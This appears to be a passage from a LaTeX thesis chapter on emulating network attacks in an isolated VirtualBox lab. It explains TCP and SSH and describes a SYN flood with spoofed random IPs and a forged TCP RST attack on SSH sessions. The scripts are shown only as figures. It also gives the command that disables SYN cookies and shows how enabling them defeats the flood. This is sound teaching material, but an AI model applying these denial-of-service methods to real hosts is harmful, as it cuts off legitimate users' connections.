\centering {
\includegraphics[scale = 0.5]{Resources/Tools/MetasploitArchitecture.jpg}}
\caption{\label{fig:Metasploit}Metasploit Framework's architecture}
\end{figure}



\chapter{Emulation of Network Attacks using Virtual Machines}

Through the following network tests, the laboratory in which those tests where performed, consisted of three VirtualBox machines. Those machines have Ubuntu as their operating system and are connected on a Network Address Translation (NAT) network.\footnote{Network Address Translation is the process where a network device, usually a firewall, assigns a public address to a computer (or group of computers) inside a private network. A virtual machine with NAT enabled acts much like a real computer that connects to the Internet through a router. The router, in this case, is the Oracle VM VirtualBox networking engine, which maps traffic from and to the virtual machine transparently.}

IP addresses:
\begin{itemize}
    \item Attacker: 10.0.2.6
    \item Victim: 10.0.2.4
    \item Observer/Secondary Victim 10.0.2.5
\end{itemize}  


\section{TCP Connection Attack Scenarios}

\subsubsection{TCP Protocol}
The Transmission Control Protocol (TCP) is one of the main protocols in the internet protocol suite, part of the Transport layer. Some of its key characteristics is that TCP provides reliable, ordered, and error-checked delivery of a stream of octets (bytes) between applications since it is a connection-oriented protocol. Due to network congestion, traffic load balancing, unpredictable network behavior, IP packet may be lost, duplicated or delivered out of order. TCP detects these problems, requests re-transmission of lost data, rearranges out-of-order data and even helps minimize network congestion to reduce the occurrence of the other problems \cite{kurose2016}\cite{hunt2002}.

Before one application process can start sending data to another, the two processes must first agree on the term of their communication and establish the parameters of the ensuing data transfer. This process is called "handshake" \cite{kurose2016}.

The TCP protocol uses a type of handshake called a three-way handshake because three segments are exchanged. As shown in figure \ref{Handshake}, host A begins the procedure by sending a segment with the "Synchronize sequence numbers" (SYN) bit set to host B. By receiving this segment, host B is informed that host A is attempting to establish a connection, and is also informed what sequence number host A will use as a starting number for its segments during the transmission\footnote{Sequence number are used to keep data in the proper order.} \cite{hunt2002}\cite{kurose2016}.

Host B then responds to host A with a segment that contains the "Acknowledgment" (ACK) and SYN bits set. By that, host B acknowledges the receipt of host A's segment, and inform A which sequence number host B will be using to start with \cite{hunt2002}.

\begin{figure}[ht!]
\centering

\includegraphics[width=1.1\textwidth]{Resources/General/tcpHandshake.jpg}
\caption{Three-way handshake \label{Handshake}}
\end{figure}

Finally, host A sends the last acknowledgment to host B and begins sending actual data, signaling the beginning of their communication.

After that, the protocol uses sequence and acknowledgment numbers to provide a stable point-to-point two-way connection \cite{hunt2002}.

\subsection{SYN Flooding Attack}

SYN flood attacks are some of the oldest yet most effective DoS\footnote{Denial-of-Service} attacks. They are a unique type of attack since they are both protocol attack and a bandwidth attack. Many SYN floods combine multiple tactics \cite{whitaker2006}.

During, the SYN flood attack, the attacker targets and exploits the three-way handshake described above, over the establishment of a TCP connection \cite{hunt2002}.
The attacker sends a segment with a SYN flag set from a spoofed address but does not respond with an acknowledgment segment after receiving a SYN-ACK response from the target \cite{whitaker2006}.
A host has a limited number of half-opened (embryonic) sessions that it can maintain at any given time \cite{whitaker2006}. After those are used up, other users cannot attempt any communication with the specific host, as long as the attack is active. SYN packets are still successful today for the following three reasons:
\begin{itemize}
\item SYN packets do not require a lot of bandwidth to launch an attack and they can be sent so rapidly that even if embryonic sessions are cleared out, other SYN packets can be sent to fill up the queue again \cite{whitaker2006}.
\item Those type of packets are part of the normal communication and everyday traffic, so they cannot be filtered easily \cite{hunt2002}.
\item The attacker can choose random IP addresses to launch the attack since no response (ACK) needs to be given back to the target.
\end{itemize}

In the following laboratory test, a SYN attack is performed. The Python code, shown in Figure \ref{SYNcode}, will be used to attack the queue containing the SYN flag information in victim machine. In the script presented below, multiple packets, with the SYN flag enabled, are created and sent to the target, from random IP addresses using the \textit{random} library and from different source ports. The random IP addresses are created using the "\textit{randomIP()}" procedure which creates and returns a string with the format of an IP address but with randomly chosen numbers, all in-between the 0 to 255 range. Then, the "\textit{SYN\_Flood()}" function is created to craft and send packets with the necessary header from different IP addresses and source port numbers. 

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Code/SYN.PNG}
\caption{SYN Flooding Attack - Python Script. \label{SYNcode}}
\end{figure}

To begin the laboratory attack, we get the target's current size of the queue for half-opened connections and we proceed by turning off the SYN cookie countermeasure using the command: \newline \textbf{\textit{sudo sysctl -w net.ipv4.tcp\_syncookies=0}}

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn1.PNG}
\caption{SYN Flooding Attack - SYN Cookie Countermeasure Disabled.\label{SYN1}}
\end{figure}
Then, we check the usage of the queue before the attack, using the command shown.

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn2.PNG}
\caption{SYN Flooding Attack - Queue before attack. \label{SYN2}}
\end{figure}

After executing the Python code, the victim now has many half-open connections from random source IP addresses. 

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn3.PNG}
\caption{SYN Flooding Attack - Queue during attack. \label{SYN3}}
\end{figure}

Once the quantity of this type of connections reaches a certain threshold, the victim will not be able to accept any new TCP connections as shown below. When the observer tries to connect to the victim through Telnet\footnote{Telnet is an application protocol used on the Internet or local area network to provide a bidirectional interactive text-oriented communication facility using a virtual terminal connection.}, the connection cannot be established.

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn4.PNG}
\caption{SYN Flooding Attack - Telnet Connection to Victim Fails. \label{SYN4}}
\end{figure}

Now, the same attack will be performed but with the SYN cookie countermeasure enabled, as shown below.

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn5.PNG}
\caption{SYN Flooding Attack - SYN Cookie Countermeasure Enabled \label{SYN5}}
\end{figure}

After the attacker follows the same steps and performs the same attack, the victim has not been affected and can properly accept the Telnet connection from the observer.

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/syn6.PNG}
\caption{SYN Flooding Attack - Successful Telnet Connection. \label{SYN6}}
\end{figure}


\subsection{RST on SSH Connections}

\subsubsection{The SSH Protocol}

Secure Shell (SSH) is a protocol that offers secure remote login and connection from one computer to another. It provides a variety of options for authentication and protects the communication's security and integrity through encryption \cite{hunt2002}.

The protocol works in the client-server model, which means that the connection is established by the SSH client connecting to the SSH server. The SSH client drives the connection setup process and uses public key cryptography to verify the identity of the SSH server. After the setup phase the SSH protocol uses strong symmetric encryption and hashing algorithms to ensure the privacy and integrity of the data that is exchanged between the client and server \cite{barrett2001}\cite{tatu1996}.

The major features and guarantees of the SSH protocol are \cite{barrett2001}:
\begin{itemize}
\item \textbf{Privacy.} The protocol provides privacy by encrypting data that passes over the network.
\item \textbf{Integrity.} The underlying transport of SSH, TCP/IP, offers integrity by detecting any alteration in the communication.
\item \textbf{Authentication.} SSH connections consist two authentications: the client verifies the identity of the server (server authentication) and the server verifies the identity of the user requesting access (user authentication).
\item \textbf{Authorization.} Access to interactive login sessions, TCP port forwarding, Key agent forwarding etc.
\item \textbf{Forwarding (Tunneling\footnote{Encapsulating another TCP-based service}).} SSH provides TCP port forwarding, X forwarding for securing the X protocol (i.e., X windows), and agent forwarding by permitting SSH clients to access SSH public keys stored on remote computers.
\end{itemize}

Some of the protocol's main uses are :
\begin{enumerate}
\item Secure Remote Logins
\item Secure File Transfer
\item Secure Remote Command Execution
\item Keys and Agents
\item Access Control
\item Port Forwarding
\end{enumerate}

\subsubsection{TCP Reset (RST) Attack}

During a TCP connection, each packets contains a TCP header. In each of those headers, there is a bit known as the "reset" (RST) flag. When set to 1, it indicates to the receiver that the TCP connection from which that packet was sent, must be terminated immediately, unbind the used port and discard any other packets that come  from the same source. In the following lab, the attacker monitors the TCP packets on the connection and then sends a "forged" packet containing a TCP reset to one or both endpoints which will result in denying the existing SSH communication of the two hosts \cite{erickson2008}\cite{hunt2002}.

The below screenshot shows the last packet sent from the server to the client and the next sequence number which the client is expecting.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/RST1.png}
\caption{TCP Reset Attack - Capturing Sequence Number\label{RST1}}
\end{figure}

Figure \ref{RSTcode} shows the Python script used to send a reset packet to the target. In this script, we are creating a packet with an IP header and a TCP segment with the RST flag set to one, and sending it to the client machine over the network. The IP address that is entered in the IP header is one of the two victim's IP, so that the target will think that the packet came from the host that it is communicating with.

\begin{figure}[H]
\centering

\includegraphics[width=1.22\textwidth]{Resources/Attacks/Code/RST.png}
\caption{TCP Reset Attack - Python Script.\label{RSTcode}}
\end{figure}

